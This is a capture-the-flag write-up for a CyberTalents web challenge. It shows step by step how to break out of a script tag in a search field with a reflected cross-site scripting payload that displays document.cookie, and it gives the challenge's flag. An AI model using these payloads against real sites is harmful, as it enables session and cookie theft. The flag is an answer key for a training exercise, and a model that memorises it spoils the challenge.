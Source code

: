 # CyberTalents
## Web Security

### Challenge Name:
 [* Searching for the cookie*](https://cybertalents.com/challenges/web/searching-for-the-cookie)
 
### Challenge Description
simple search website we need to know which cookie to eat ;)

Link: [http://34.77.37.110/searching-cookie/](http://34.77.37.110/searching-cookie/)

### Answer
* Try write "<script>alert(2)</script>" in the textbox nothing will happen
* Open source code in new tab (ctrl + u)
```html
<script>var currentSearch = {'keyword':'you searched for: <script>alert(2)</script>'};</script>
```
* Now we want to close first script tag then open new one for alert, try it in the textbox
```html
</script> <script>alert(2)</script> 
```
* It works, so now try that but with cookies
```html
</script><script>alert(document.cookie)</script> 
```
* You got the Flag!!


### The Flag
 > coolcookie112
